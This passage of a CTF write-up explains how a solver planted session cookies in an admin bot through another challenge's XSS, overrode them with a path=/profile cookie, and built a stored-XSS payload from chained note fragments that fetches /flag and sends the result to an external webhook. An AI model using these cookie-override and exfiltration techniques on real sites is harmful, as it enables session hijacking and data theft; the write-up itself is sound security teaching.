 Now, we already know roughly what notes we need to insert to achieve XSS and steal the flag, but then I realised... Where do I insert the notes???

### Inserting the notes

Normally you would have the bot visit your profile and view your notes, but this time, everything is stored in your express session, meaning YOU, the user had to be the one who inserted the notes.

My first thought was through CSRF, but after some researching, I found that because the `express.json()` used checks for the `application/json` content type header, it was impossible to perform CSRF. (Unless it was years ago when flash was supported in major browsers...)

After failing for hours, with seemingly no way to insert notes for the bot, I thought of the good old CTF web trick, using other challenges to "cheese" it. Realistically, this wasn't going to be a "cheese" as we determined that there was no other proper way to do so.

I confirmed this functionality by making the antisocial-media admin bot visit another challenge, `web/purell`, which allows for easy XSS and made it ping my webhook if the bot visited, and indeed, it did!

This still doesn't mean that you can easily insert notes due to cross domain restrictions. However, if you noticed, the express session is stored as a cookie, and if you simply replace the session id with one of your owns(with notes inserted), you could load arbitrary notes onto the bot's profile.

I was unable to get the log out endpoint to remove the session ids from the admin bot, however @ozetta reminded me that you can simply make a cookie with higher priority by setting a more specific path for it. In other words, by making a cookie with `path=/profile`, you can effectively override the original cookie as the more specific path is preferred.

With this, we basically only had to follow these steps to get the flag:
1. Make an account and insert notes which sends the contents of `/flag` to our webhook
2. Copy the session id from that account
3. Put that session id into the admin bot
4. Redirect the admin bot back to `/profile` to steal the flag from `/flag`

### Crafting the payload

To do the first step, @ozetta figured out this insane payload:
```js
const notes = [
  "$`</script>$`/*",
  "*/1;fetch(/*",
  '*/"/flag"/*',
  "*/,{method:/*",
  '*/"post"})./*',
  "*/then(_=>_./*",
  "*/text())./*",
  "*/then(_=>{/*",
  "*/location=/*",
  "*/name+_})//",
];
```

It utilises `window.name` to save the url of our webhook, which is the most lengthy component. While `/*` and `*/` are for commenting the added `, ` between notes.
